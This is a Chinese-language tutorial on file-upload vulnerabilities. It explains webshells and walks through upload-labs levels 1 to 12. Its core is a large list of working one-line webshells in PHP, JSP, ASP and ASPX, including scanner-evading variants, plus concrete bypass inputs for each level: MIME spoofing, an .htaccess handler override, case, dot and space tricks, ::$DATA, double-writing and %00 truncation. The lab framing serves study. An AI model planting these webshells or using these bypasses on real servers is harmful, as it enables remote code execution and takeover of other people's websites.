






# 文件上传漏洞

—————————————————————————————————————————————————————————————————————————————————————————————————————————————

### 一、什么是文件上传漏洞

```
	文件上传漏洞是指由于程序员在对用户文件上传部分的控制不足或者处理缺陷，而导致的用户可以越过其本身权限向服务器上上传可执行的动态脚本文件。这里上传的文件可以是木马，病毒，恶意脚本或者WebShell等。“文件上传”本身没有问题，有问题的是文件上传后，服务器怎么处理、解释文件。如果服务器的处理逻辑做的不够安全，则会导致严重的后果。
```

### 二、什么是webshell

```
	WebShell就是以asp、php、jsp或者cgi等网页文件形式存在的一种命令执行环境，也可以将其称之为一种网页后门。攻击者在入侵了一个网站后，通常会将这些asp或php后门文件与网站服务器web目录下正常的网页文件混在一起，然后使用浏览器来访问这些后门，得到一个命令执行环境，以达到控制网站服务器的目的（可以上传下载或者修改文件，操作数据库，执行任意命令等）。 WebShell后门隐蔽较性高，可以轻松穿越防火墙，访问WebShell时不会留下系统日志，只会在网站的web日志中留下一些数据提交记录
```

### 三、一句话木马/获得shell的工具

常用的webshell就是一句话木马，结合中国蚁剑、中国菜刀或者hackbar等工具可以很高效快捷的获得网站shell。

```
蚁剑

菜刀：网站的版本太老了。

冰蝎：https://github.com/rebeyond/behinder

哥斯拉：https://github.com/BeichenDream/Godzilla/releases/tag/v4.0.1-godzilla
```

#### 1、**常用的一句话木马**

```php
<?php   
@eval($_REQUEST['admin']);
?>
    
@：错误抑制符
    
eval：把字符串作为PHP代码执行
 
request：相当于get和post的结合
```

#### 2、测试类phpinfo()

 [这个要是能显现出来基本上可以判断为有文件上传漏洞]

```
<?php   
phpinfo()
?>
```



#### **3、一句话木马大全**

```
##PHP：
<?php @eval($_POST['r00ts']);?> 
<?php phpinfo();?>
<?php @eval($_POST[cmd]);?>
<?php @eval($_REQUEST[cmd]);?>
<?php assert($_REQUEST[cmd]); ?>
<?php //?cmd=phpinfo() @preg_replace("/abc/e",$_REQUEST['cmd'],"abcd"); ?>
<?php 
//?cmd=phpinfo();
$func =create_function('',$_REQUEST['cmd']);
$func();
?>

<?php
//?func=system&cmd=whoami
$func=$_GET['func'];
$cmd=$_GET['cmd'];
$array[0]=$cmd;
$new_array=array_map($func,$array);
//print_r($new_array);
?>

<?php 
//?cmd=phpinfo()
@call_user_func(assert,$_GET['cmd']);
?>

<?php 
//?cmd=phpinfo()
$cmd=$_GET['cmd'];
$array[0]=$cmd;
call_user_func_array("assert",$array);
?>

<?php 
//?func=system&cmd=whoami
$cmd=$_GET['cmd'];
$array1=array($cmd);
$func =$_GET['func'];
array_filter($array1,$func);
?>

<?php usort($_GET,'asse'.'rt');?> php环境>=<5.6才能用
<?php usort(...$_GET);?>  php环境>=5.6才能用
<?php eval($_POST1);?> 
<?php if(isset($_POST['c'])){eval($_POST['c']);}?> 
<?php system($_REQUEST1);?> 
<?php ($_=@$_GET1).@$_($_POST1)?> 
<?php eval_r($_POST1)?> 
<?php @eval_r($_POST1)?>//容错代码 
<?php assert($_POST1);?>//使用Lanker一句话客户端的专家模式执行相关的PHP语句 
<?$_POST['c']($_POST['cc']);?> 
<?$_POST['c']($_POST['cc'],$_POST['cc'])?> 
<?php @preg_replace("/[email]/e",$_POST['h'],"error");?>/*使用这个后,使用菜刀一句话客户端在配置连接的时候在"配置"一栏输入*/:<O>h=@eval_r($_POST1);</O> 
<?php echo `$_GET['r']` ?> 

<script language="php">@eval_r($_POST[sb])</script> //绕过<?限制的一句话

<?php (])?>   上面这句是防杀防扫的！网上很少人用！可以插在网页任何ASP文件的最底部不会出错，比如 index.asp里面也是可以的！

<?if(isset($_POST['1'])){eval($_POST['1']);}?><?php system ($_REQUEST[1]);?> 
加了判断的PHP一句话，与上面的ASP一句话相同道理，也是可以插在任何PHP文件 的最底部不会出错！

<%execute request(“class”)%><%'<% loop <%:%><%'<% loop <%:%><%execute request (“class”)%><%execute request(“class”)'<% loop <%:%> 
无防下载表，有防下载表可尝试插入以下语句突破的一句话 

<%eval(request(“1″)):response.end%> 备份专用
```

```
##JSP：

<%if(request.getParameter("f")!=null)(newjava.io.FileOutputStream (application.getRealPath("\\")+request.getParameter("f"))).write (request.getParameter("t").getBytes());%> 
提交客户端 
<form action="" method="post"><textareaname="t"></textarea><br/><input type="submit"value="提交"></form>
```

```
##ASP

<%eval(Request.Item["r00ts"],”unsafe”);%>

<%IfRequest(“1″)<>”"ThenExecuteGlobal(Request(“1″))%> 

<%execute(request(“1″))%> 

<scriptrunat=server>execute request(“1″)</script> 不用'<,>‘的asp一句话 
```

```
##aspx

<scriptrunat=”server”>WebAdmin2Y.x.y aaaaa =newWebAdmin2Y.x.y (“add6bb58e139be10″);</script> 

<script language="C#"runat="server">WebAdmin2Y.x.y a=new WebAdmin2Y.x.y("add6bb58e139be10")</script> 

<%eval request(chr(35))%>  不用双引号的一句话。
```

### 四、产生文件上传漏洞的原因

```
1、对于上传文件的后缀名（扩展名）没有做较为严格的限制

2、对于上传文件的MIMETYPE(用于描述文件的类型的一种表述方法) 没有做检查

3、权限上没有对于上传的文件目录设置不可执行权限，（尤其是对于shebang类型的文件）

4、对于web server对于上传文件或者指定目录的行为没有做限制
```

```
	在 WEB 中进行文件上传的原理是通过将表单设为 multipart/form-data，同时加入文件域，而后通过 HTTP 协议将文件内容发送到服务器，服务器端读取这个分段 (multipart) 的数据信息，并将其中的文件内容提取出来并保存的。通常，在进行文件保存的时候，服务器端会读取文件的原始文件名，并从这个原始文件名中得出文件的扩展名，而后随机为文件起一个文件名 ( 为了防止重复 )，并且加上原始文件的扩展名来保存到服务器上

文件上传后导致的常见安全问题一般有:

1、上传文件是Web脚本语言，服务器的Web容器解释并执行了用户上传的脚本,导致代码执行;

2、上传文件是Flash的策略文件crossdomain.xml,黑客用以控制Flash在该域下的行为(其他通过类似方式控制策略文件的情况类似);

3、上传文件是病毒、木马文件，黑客用以诱骗用户或者管理员下载执行:

4、上传文件是钓鱼图片或为包含了脚本的图片，在某些版本的浏览器中会被作为脚本执行，被用于钓鱼和欺诈。

	除此之外，还有一些不常见的利用方法，比如将上传文件作为一个入口,溢出服务器的后台处理程序，如图片解析模块;或者上传-一个合法的文本文件， 其内容包含了PHP脚本，再通过“本地文件包含漏洞(Local File Include)"执行此脚本;等等。此类问题不在此细述。
```

### 五、靶场upload-labs的讲解



#### 1、靶场常见限制代码

##### 1)前端限制

```
//定义允许上传的文件类型
var allow_ext = ".jpg|.png|.gif";

从前端限制上传的文件类型为这几个类型
```

##### 2)后端限制

```
1、$deny_ext = array(".php",".php5",".php4",".php3",".php2","php1",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2","pHp1",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf");

$deny_ext=array("  ");  限制mime类型

2、$file_name = trim($_FILES['upload_file']['name']);

trim():去除字符串首尾处的空白字符，也就是去除首尾空格

3、$file_name = deldot($file_name);//删除文件名末尾的点

deldot():去除末尾的所有点

4、$file_ext = strrchr($file_name, '.');用于获取文件后缀名

strrchr()：用于获取文件或追名

5、$file_ext = strtolower($file_ext); //将所有的大写通通转换为转换为小写

strtolower()：所有的大写通通转换为小写

6、$file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA （该靶场独有，windows会过滤::$DATA）

str_ireplace():替换的意思

7、$file_name = str_ireplace($deny_ext,"", $file_name);

就譬如这句话，上传的文件后缀名如果匹配上黑名单的话它就替换成空，也就是什么都没有，相当于将文件名里面的某个参数删除

8、$file_ext = trim($file_ext); //获取文件名后再一次的首尾去空
```

#### 2、常见的一些文件上传绕过方式

```
1、mime类型绕过，.php3 .phtml  

2、.htaccesss  

3、空格和点绕过

4、::$DATA 

5、双写绕过

6、大小写绕过（windows）

7、%00截断

8、文件包含绕过，此时蕴含一句话木马的文件可以使jpg这样的图片后缀。

9、条件竞争：文件会先上传，在判定。这个时候可以上传一个能够创建shell.php文件的文件进行绕过。

windows文件名不能包含下列字符，会把它删了：
\/ :* ?" < >l

因此我们也可以利用这些特殊字符添加在".php"后面，等上传成功后windows就会自动把这些特殊字符删除，进行一个绕过
```



#### 3、靶场关卡解析

**这里只是大概讲一个思路，上传成功后就可以用蚁剑进行连接了，不再过多赘述**



##### 1、Pass-01(前端绕过)

```
1、前端绕过

前端后缀名限制

上传写有一句话木马的.jpg文件

用BP抓包将.jpg改成.php即可

"shell.php" ——> "shell.jpg"
```

##### 2、Pass-02(mime类型绕过)

```
2、mime类型绕过

mime类型限制

后端限制就不看后缀看mime类型

BP抓包：修改为这一句——>Content-Type：image/png

如果不改，放空，会显示文件类型不正确

Content-Type：

那我们改一下看看

Content-Type：image/png

这就上传成功了
```

##### 3、Pass-03(查看原有配置文件绕过[比较老的网站才有])

```
3、查看原有配置文件绕过

网站老的时候会遇见

打开老版本小皮-其他-打开配置文件-httpd-conf-查询关键字php3-看到.php .php3 .phtml都当成php文件执行

这是比较老的网站会出现这样的漏洞，比较新的比较不太好遇到

用BP抓包，把文件名后缀改成.php3 .phtml

"shell.php3"/"shell.phtml"
```

##### 4、Pass-04(.htaccess绕过)

```php
4、.htaccess绕过

这一关我们先看看源码，连php3，phtml都被限制了，想一想上一关的配置文件，这时候我们要怎么办呢？

对于这个老网站，有没有可能我们先上传一个配置文件，让它去执行，绕过这些限制呢？

答案肯定是有的

比较老的网站可以写一个.htaccess文件，这个文件是Apache的一个系统配置文件，我们打开来一看一看
这个格式是Apache的一个固定格式噢大家不用管，我们主要来看一看这个意识啊，这个意思就是说当看见shell.jpg文件呢就当成php文件来执行，这个是不是跟刚才那个很像
这个.htaccess的配置文件呢只要在当前目录下都会生效，一般这个文件都不会做出限制，所以我们先直接给它上传这个配置文件

.htaccesss

<FilesMatch "shell.jpg">
SetHandler application/x-httpd-php
</FilesMatch>
    
之后再正常上传shell.jpg文件即可（不用BP抓包，直接上传）
```

##### 5、Pass-05(大写绕过)

```
5、大写绕过

windows文件后缀名是不区分大小写的，都可以用（桌面演示）

用BP抓包

更改为pHp测试，不行，故意发出疑问，为什么不行呢？

原来是这边的网页源码限制了

所以我们改成Php，再尝试一下，你看就成功了

"shell.Php"
```

##### 6、Pass-06(空格绕过)

```
6、空格绕过

用BP抓包，在文件后缀名后面添加个空格或者非常多空格

"shell.php             "

成功上传
```

##### 7、Pass-07(点绕过)

```
7、点绕过

用BP抓包，在文件后缀名后面添加个点（添加很多点也是可以的，windows会自动过滤）

"shell.php........"

成功上传
```

##### 8、Pass-08(::$DATA绕过)

```
8、::$DATA绕过

.php::$DATA

很明显不在限制的mime类型里面，也就是黑名单里面

BP抓包

"shell.php::$DATA"

上传成功后windows会把::$DATA过滤掉就又变回了.php文件

windows文件名不能包含下列字符，会把它删了：
\/ :* ?" < >l

因此我们也可以利用这些特殊字符添加在".php"后面，等上传成功后windows就会自动把这些特殊字符删除，进行一个绕过

就譬如：

"shell.php\"也可以正常上传
```

##### 9、Pass-09(一般性限制绕过)

```
9、一般性限制绕过

查看网页源代码

对比之前的代码为 $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;

$file_ext = strrchr($file_name, '.');获取文件后缀

之前它会把我们最后一个点后面的参数给它提取出来，提取出来之后通过一些函数的过滤和黑名单的过滤再给我们安那个后缀名，所以之前的限制是很大的

就譬如'shell.php. ' 它就会把最后一个点之后的空格当成后缀名，上传之后就变成了'shell. ',这根本不是一个可执行的文件，所以之前都是不行的

现在新出现了这一句$img_path = UPLOAD_PATH.'/'.$file_name;

然后再看看这个$file_name

$file_name = trim($_FILES['upload_file']['name']);是我们自己所写的那个文件的文件名

现在这个文件名是我们自己所写的，所以方式会有很多

所以这一关先看看网页源代码读取它进行限制的一些函数的顺序

$file_name = trim($_FILES['upload_file']['name']); 首尾先去空，所以我们在后面先给它加上空格

'.php '

$file_name = deldot($file_name);//删除文件名末尾的点,再末尾给它加上点

'.php. '

$file_ext = strrchr($file_name, '.');获取文件后缀

$file_ext = strtolower($file_ext); //大写转换为小写，这个跟我们没关系，我们就转换成小写就行了

$file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA，这个靶场独有的也不管

$file_ext = trim($file_ext); //再进行一次首尾去空，所以我们需要再后面再加上空格

'.php . '
 
 因为最后还得匹配一下黑名单，我们要让黑名单匹配不上，所以需要在后面再加一个点
 
 '.php. . ' 
 
 "shell.php.     .     "
 
 上传之后此时文件的后缀经过函数一系列过滤为" .php. "
 
 windows又会把最末尾的点给去掉，所以后缀名就变成了可执行的.php了
```

##### 10、Pass-10(双写绕过)

```
10、双写绕过

多了一句$file_name = str_ireplace($deny_ext,"", $file_name);

上传的文件后缀名如果匹配上黑名单的话它就替换成空，也就是什么都没有，相当于将文件名里面的某个参数删除

此时采用双写绕过

"shell.pphphp"
```

##### 11、Pass-11(%00截断)

```
11、%00截断

白名单限制

$ext_arr = array('jpg','png','gif');只能写这些后缀的，写其他是一点效果都没有的

所以我们上传一个写有一句话木马的.jpg文件

BP抓包

本来第一行为POST /pass-11/index.php ?save_path=../upload/ HTTP/1.1 上传到../upload/这个路径

现将第一行改为这个POST /pass-11/index.php ?save_path=../upload/shell.php%00.jpg HTTP/1.1

因为通过分析网页源代码发现必须要.jpg为后缀名，所以我们后面需要有.jpg，然后%00在ASCII码中属于空字符-null，为空的话像php啊，MySQL啊，碰到%00这样的一个参数就停止了，不会再往下执行了，所以代码执行到./upload/shell.php就结束了,'.jpg'就不会去执行,那么创建的文件就是.php文件

"POST /pass-11/index.php ?save_path=../upload/shell.php%00.jpg HTTP/1.1"
```

##### 12、Pass-12(%00截断)

```
12、%00截断

这一题前端限制上传文件为图片格式 .jpg/.png/.gif  上传写有一句话木马的.jpg文件

BP抓包

上一题写开头，这一题写中间     ../upload/shell.php%00

但是开头有%00的url解码，中间却没有，所以输了%00之后还得用BP自带的功能给它先解码成空后再放包
```





##### 从13题开始就是文件包含漏洞了，到文件包含漏洞板块再说